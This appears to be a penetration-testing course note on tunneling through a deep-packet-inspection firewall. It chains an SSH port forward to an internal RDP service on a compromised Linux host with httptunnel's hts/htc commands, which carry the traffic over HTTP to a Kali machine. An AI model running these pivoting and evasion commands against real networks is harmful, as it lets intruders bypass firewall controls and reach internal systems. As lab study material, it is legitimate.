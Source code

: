 # Http tunneling through deep packet inspection

Senario: only a specific protocal is allowed. E.g. ssh protocal is not allowed. and theres a deep packet inspection in the firewall that only allow http packet. An unused port 1234 is open by misconfiguration (unusal in real case)
port 3389 remote desktop prot

On compromised linux machine:

```
ssh -L 0.0.0.0:8888:w.x.y.z:3389 student@127.0.0.1  
```

it is not restricted since they both in the internal subnet

encapsulate the tunnel within http package

```
sudo apt install httptunnel
```

http tunnel is server-client based, on compromised linux:

```
student@debian:~$ hts --forward-port localhost:8888 1234
```

on kali:

```
kali@kali:~$ htc --forward-port 8080 10.11.0.128:1234
```